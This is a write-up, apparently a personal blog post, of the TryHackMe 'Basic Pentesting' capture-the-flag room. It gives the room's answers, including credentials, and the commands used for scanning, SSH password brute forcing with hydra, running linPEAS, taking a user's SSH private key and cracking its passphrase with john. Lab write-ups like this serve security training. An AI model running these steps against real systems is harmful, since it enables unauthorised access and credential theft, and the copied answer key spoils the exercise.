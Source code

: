 ```yaml
---
layout: post
title: Basic Pentesting
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, gobuster, enum4linux, hydra, linPEAS, JohnTheRipper]
---
```

## Task 1 Web App Testing and Privilege Escalation
In these set of tasks you'll learn the following:
 - brute forcing
 - hash cracking
 - service enumeration
 - Linux Enumeration

### Questions:

1. What is the name of the hidden directory on the web server(enter name without /)?
```
development
```
2. What is the username?
```
jan
```
3. What is the password?
```
armando
```
4. What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```
5. What is the name of the other user you found(all lower case)?
```
kay
```
6. What is the final password you obtain?
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

### MyWalk:

Beginning with an nmap scan, and save the results on nmap/initial for future reference:

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```

Now I'll enumerate any directories available:

```bash
gobuster dir --url http://10.10.40.46 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt
```
<span style="color:green;">Q1 done</span>

http://10.10.40.46/development give us 2 files referencing development messages between two users.

Lets use enum4linux:

```bash
/usr/share/enum4linux/enum4linux.pl -a 10.10.40.46 | tee enum4linux.log
```

Users 'kay' and 'jan' found.

<span style="color:green;">Q2 & Q5 done</span>

Now I try to get the 'jan' password using brute force, and get answer to Q3:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.46 -t 4

```
jan:armando <span style="color:green;">Q3 done</span>

Now I'll try to login with shh credentials:
```bash
ssh jan@10.10.40.46
```
After sucessfull connection <span style="color:green;">Q4 done</span>. We will try some commands now:

```bash
jan@basic2:~$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Apr 23 2018 .
drwxr-xr-x 4 root root 4096 Apr 19 2018 ..
-rw------- 1 root jan 47 Apr 23 2018 .lesshst
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cat .lesshst
cat: .lesshst: Permission denied
jan@basic2:~$ cat /etc/passd
cat: /etc/passd: No such file or directory
jan@basic2:~$ sudo -l
[sudo] password for jan:
Sorry, user jan may not run sudo on basic2.
jan@basic2:~$ cd ..
jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ cat .viminfo
cat: .viminfo: Permission denied
```
Nothing seems to work, so at this point we should try running Priviledge Escalation Awsome Script:

[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

After install the linpeas.sh script in our directory /opt/linPEAS we we'll run the command:

```bash
scp /opt/linPEAS/linpeas.sh jan@10.10.40.46:/dev/shm
```
Checking the target:

```bash
jan@basic2:~$ cd /dev/shm
jan@basic2:/dev/shm$ ls
linpeas.sh
```
Run it (on target):

```bash
./linpeas.sh | tee linlog.txt
```
Found a id_rsa key. Past it in a file using nano and mark it as read only by us.
Now lets connect with the key of 'kay' user:

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
At this point an error occurred because the key format listed in the linpeas result was incorrect, so lets extract it directly from the directory: /home/kay/.ssh/id_rsa
After trying to connect again it asks for a paraphrase so we need to use johntheripper to find the pass.
First I need to prepare the key to use in johntheripper, with the ssh2john.py script, and save it in the forjohn.txt:

```bash
/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
```

Now run john with the key against the rockyou.txt:

```bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
we can see the paraphrase is 'beeswax'
Lets try to login again as kay.

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```

Entering the paraphrase password 'beeswax' and success!  
Now is possible to read the pass.bak file and  
<span style="color:green;">Q6 done</span>

### Tools:
- nmap
- gobuster
- enum4linux
- hydra
- linPEAS
- johntheripper